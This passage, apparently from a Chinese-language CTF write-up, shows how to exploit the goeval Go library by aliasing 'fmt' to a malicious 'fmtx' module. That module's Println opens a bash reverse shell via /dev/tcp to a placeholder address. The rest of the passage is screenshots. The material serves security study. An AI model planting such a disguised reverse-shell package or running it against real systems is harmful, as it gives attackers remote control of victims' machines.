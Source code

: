 fmtx.go

```go
package fmtx

import (
	"os/exec"
)

func Println(text string) {
	command := exec.Command("bash", "-c", "bash -i &> /dev/tcp/x.x.x.x/yyyy 0>&1")
	err := command.Run()
	if err != nil {

	}
}
```

go.mod

```go
module fmtx

go 1.13
```

然后 pkg 传入 `fmt fmtx`, 这样 `github.com/PaulXu-cn/goeval` 在处理的时候就会把它变成 `fmt "fmtx"` 的形式, 类似 python 中的 `import xx as yyy`

过一遍流程

![image-20230218170600854](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202302181706937.png)

![image-20230218170607471](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202302181706553.png)

![image-20230218171321665](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202302181713740.png)

![image-20230218170623539](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202302181706611.png)

![image-20230218170650705](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202302181706784.png)

![image-20230218170724798](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202302181707842.png)
